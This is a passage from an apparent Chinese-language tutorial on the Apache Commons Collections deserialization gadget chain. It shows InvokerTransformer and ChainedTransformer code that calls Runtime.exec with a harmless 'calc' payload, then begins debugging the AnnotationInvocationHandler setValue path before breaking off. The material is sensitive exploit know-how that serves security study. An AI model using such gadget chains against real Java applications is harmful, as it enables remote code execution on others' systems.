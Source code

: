 ```plain
Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);//获取Runtime.getRuntime方法

Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);//调用Runtime.getRuntime方法从而实例化Runtime类

InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});//
invokerTransformer.transform(r);
```

然后我们还可以调用链式结构来优化这个代码：

```plain
public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }

    /**
     * Transforms the input to result via each decorated transformer
     * 
     * @param object  the input object passed to the first transformer
     * @return the transformed result
     */
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
```

```plain
Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```

#### `if`判断进入`setValue`：

我们在`AnnotationvocationHandler`类中的`if`下断点，我们可以发现memberType在这里识别为null，我们就无法进入`if`语句从而导致无法调用setValue方法：

[![](assets/1701612311-edffda43fcc7dc53a528a512dac28d22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235121-f290ced6-20cb-1.png)

我们可以看一下调试的结果：
